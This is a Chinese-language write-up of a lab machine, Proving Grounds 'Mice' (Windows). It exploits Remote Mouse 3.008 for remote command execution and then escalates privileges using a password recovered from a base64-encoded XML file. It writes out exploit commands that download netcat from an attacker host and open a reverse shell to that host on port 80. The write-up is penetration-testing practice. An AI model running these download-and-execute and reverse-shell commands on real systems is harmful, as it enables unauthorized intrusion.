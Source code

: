 ```yaml
---
title: Proving Grounds Practice-Mice-Windows
date: 2025-9-17 20:00:00
tags: 红队
categories: 红队打靶-Windows
---
```


# 信息收集

## nmap

![image-20250917135121225](./Mice-Windows/image-20250917135121225.png)

# 1978-remote mouse

可以查到remote mouse存在漏洞，可以命令执行

[p0dalirius/RemoteMouse-3.008-Exploit](./https://github.com/p0dalirius/RemoteMouse-3.008-Exploit)

防火墙对端口做了限制，尝试了一下80端口是可行的

```
python3 RemoteMouse-3.008-Exploit.py -t 192.168.216.199 -v -c "powershell wget http://192.168.45.222/nc64.exe -outfile C:\Windows\temp\nc.exe"

python3 RemoteMouse-3.008-Exploit.py -t 192.168.216.199 -v -c " C:\Windows\temp\nc.exe -e cmd 192.168.45.222 80" 
```

![image-20250917143005163](./Mice-Windows/image-20250917143005163.png)

# 提权

搜索了一下其中喊pass的文件

![image-20250917150741693](./Mice-Windows/image-20250917150741693.png)

在divine用户下存在一个xml文件，其中有密码的base64加密，解密之后是`ControlFreak11`，该用户又在远程登录组中，使用远程桌面连接![image-20250917150724296](./Mice-Windows/image-20250917150724296.png)

桌面有一个`Remote Mouse`软件，搜索了一下该软件存在本地权限提升漏洞

![image-20250917145408922](./Mice-Windows/image-20250917145408922.png)

![image-20250917151257974](./Mice-Windows/image-20250917151257974.png)

需要在远程桌面上的系统菜单打开remote mouse,我这里点开一直是空，做不了后续了，这里是别人的截图

打开之后按照POC中的方法就可以提权

![image-20250917152810379](./Mice-Windows/image-20250917152810379.png)

![image-20250917152817721](./Mice-Windows/image-20250917152817721.png)

![image-20250917152823672](./Mice-Windows/image-20250917152823672.png)

![image-20250917152835367](./Mice-Windows/image-20250917152835367.png)